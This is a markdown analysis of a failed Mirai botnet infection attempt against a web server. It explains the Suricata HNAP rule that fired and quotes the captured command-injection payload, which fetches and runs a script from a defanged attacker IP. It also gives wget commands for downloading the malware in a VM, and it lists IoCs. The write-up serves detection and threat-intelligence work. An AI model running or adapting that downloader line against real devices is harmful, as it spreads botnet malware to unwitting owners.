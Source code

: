 # Attempted Mirai Infection and Analysis
---

## The Attack

- This began with a "drive by" infection attempt aiming to exploit a D-Link Router vulnerability CVE-2020-15631. Thank fully this bot attack didn't find a D-Link Router and instead found a fully patched web server. The attack failed.  Breaking the initial vulnerability and exploit attempt down is beyond the scope of this project but I will give a brief overview. 
    - This website has some great analysis on this vulnerability:
        - https://musteresel.github.io/posts/2018/03/exploit-hnap-security-flaw-dlink-dir-615.html

### Suricata Alert

- The Rule that fired was the following:
 ```
	alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"ET WEB_SERVER Possible D-Link Router HNAP Protocol Security Bypass Attempt"; flow:established,to_server; urilen:7; http.method; content:"POST"; http.uri; content:"/HNAP1/"; nocase; endswith; fast_pattern; http.header; content:"SOAPAction|3a 20|"; nocase; content:"/HNAP1/"; distance:0; pcre:"/^(?:set|get)/Ri"; content:"DeviceSettings"; within:14; reference:url,www.securityfocus.com/bid/37690; reference:url,doc.emergingthreats.net/2010698; classtype:web-application-attack; sid:2010698; rev:6; metadata:created_at 2010_07_30, updated_at 2020_11_02;)
```
- Lets break this Suricata signature down.
    1. The rule is an "alert" rule looking at http traffic from any port inbound from the variable EXTERNAL_NET to the networks assigned to the variable HOME_NET on any port.
    2.  The flow is set to established which means it will only match on established connections. Direction is "to server." 
    3. We see the "urilen" which sets a uri length of 7 characters. 
    4. We then see a sticky buffer of "http.method" which modifies the content "POST" which come after it. That is telling the logic to look in the http.method field for content of "POST." If the http.method field has a GET or any method other then POST, the logic won't continue to run and the rule won't fire. 
    5. We then see another sticky buffer of "http.uri." Again, this is giving a field for which to look for the content that follows it. In this case its saying look in the "http.uri" field for the content "/HNAP1/". You will notice that their is 7 characters in "/HNAP1/"
   6. We see "nocase" which sounds exactly what it does - makes it not case sensitive.
   7. Next is endswith, which according to the suricata manual it "modifies the content to match exactly at the end of a buffer."
   8.  "fast pattern" is fairly complicated and takes some time to explain. I suggest consorting with the suricata manual if you are interested in what this does. 
   9. We then see "http.header" sticky buffer which says " look at the http.header for the following content "SOAPAction|3a 20|" 
      - notice the |3a 20| . If you put that in cyber chef and decode from hex to ASCII you will notice it translates to the character ":" this is a special character and must be translate to hex in the rule or it will mess up the logic. This is trying to look for "SOAPaction:"
   10. We see another content which again is modified by the preceding http.header sticky buffer. This content is looking for "/HNAP1/.
   11. "distance: 0" is telling the logic to look for the preceding content of /HNAP1/ 0 bits away from the content before /HNAP1/ which in this case is SOAPaction:
     - the Suricata manual has a great picture that explains this concept
![image.png](/.attachments/image-532e61cd-c386-43e3-88e5-dcbf6874e550.png)
    

12.  We then see some pcre regex essentially looking for either "set" or "get" pcre:"/^(?:set|get)/Ri"
13. Right after the PCRE we see another content match looking for "DeviceSettings" This is followed by a distance modifier of "within: 14. This is best explained with another picture
![image.png](/.attachments/image-c6c457e7-6c99-49f2-9ec6-97adf0a4f158.png)

13. Thats it for the logic of the rule. Following the logic we have some reference links, the classtype(which signifies which kind of attack it is),  Signature ID(SID), the revision number, and some metadata which tells us when it was created or modified. 
### The Traffic it matched on

![image.png](/.attachments/image-e052bfb3-7be3-4d92-9713-607756a2e185.png)

- As we can see we have a POST as the HTTP Method
- We have /HNAP1/ as the URI
- We have an HTTP header of SOAPaction: with  /HNAP1/ in the header.
- Immediately following /HNAP1/ we have "Get" which the regex will match on and then "DeviceSettings"
- Following DeviceSettings we have the contents of the exploit payload which can change depending on what the threat actor is going to do. 

### The Initial Exploit
Defanged!
```
cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://23.94.22[.]13/a/wget.sh;chmod 777 wget.sh;sh wget.sh selfrep.dlink;rm -rf wget.sh`"
```
This looks like a rather simple command injection.
- It does a CD (change directory) and if that executes with no errors it changes directory to the tmp directory.
- Then adds the current path to the PATH variable
- We see a CD to the /tmp directory where it then uses the wget tool to pull down a script titled "wget.sh" from http://23.94.22[.]13/a/wget.sh
- It then changed the permissions on the wget.sh script to 777 or rwxrwxrwx 
- We then see it use sh to execute wget.sh and it follows it all up by deleting itself. 


### Whats in wget.sh?

- To find this out we need to fire up a VM (behind a VPN) and wget this wget.sh script from the attacker webserver. 
    - To that end we can just run the same command (defanged of course)
    - Becareful from here on out. The ELF we eventually will grab can infect linux machines. Only  do this on a machine you can blow up and walk away from or reset. 
```
wget http://23.94.22[.]13/a/wget.sh
```
- Once we have wget.sh we can the cat the contents. 

![wget_sh.png](/.attachments/wget_sh-de81ca11-748b-49d0-ba8f-dc57f28ea875.png)

- Gnarly. Whats this thing trying to do? its rather simple. Its using wget to pull down the secondary payload, changing the permissions on it and executing it. It doesn't know the operating CPU so its trying from ARM to x86_64. It tries to install them all. 

### Whats the secondary payload?

- Lets find out by utilizing wget to pull it down

```
wget http://23.94.22[.]13/x86_64
```
- After we got that payload we can do a few things. 
    - We can start of by running the command "file" to get some details
![image.png](/.attachments/image-d7ca65f2-b5c8-4498-bd9b-6c3902f35225.png)

- Then lets run the "strings" command and see what we can find
    - If we look through all the strings we can see bots.infectedfam[.]cc This looks like potentially C2 domain. We should check that out later. 
![bots_infectedfam_cc_post.png](/.attachments/bots_infectedfam_cc_post-1e7ce95d-55de-4b0d-92dc-69b9b2f2ba99.png)

### Follow Up Analysis

- At this point, We've collected a handful of IoC's. We have IP addresses(both from the original attack and the ones contained in the exploits). We have a domain. We also have some pretty unique strings we may be able to write a yara rule with down the road.  
- Lets investigate that domain. 
    - Just days old. Also proxied through cloudflare. - Smart. Don't exactly want to block Cloudflare IP. Can still block that domain though!
![image.png](/.attachments/image-ab391949-b696-432f-842f-a97e0dac6ea4.png)

- Next we can share this intel with the community by submitting our IoC's as a pulse on AlienVault OTX. I've done so. First Pulse for this domain!
https://otx.alienvault.com/pulse/6215c927cbce007580b75c5e

- I also submitted that ELF to Joes Sandbox for further analysis. You can find the report here:
https://www.joesandbox.com/analysis/576941/0/html

### What I'll be doing now.

- GHIDRA - I'm no programmer or reverse engineer but I'd like to get an even deeper understanding of how this Mirai flavor is working. 
- Yara rules for detection. 

![Ghidra.png](/.attachments/Ghidra-1beaa57c-010a-4612-b0c4-46c43b4d57fe.png)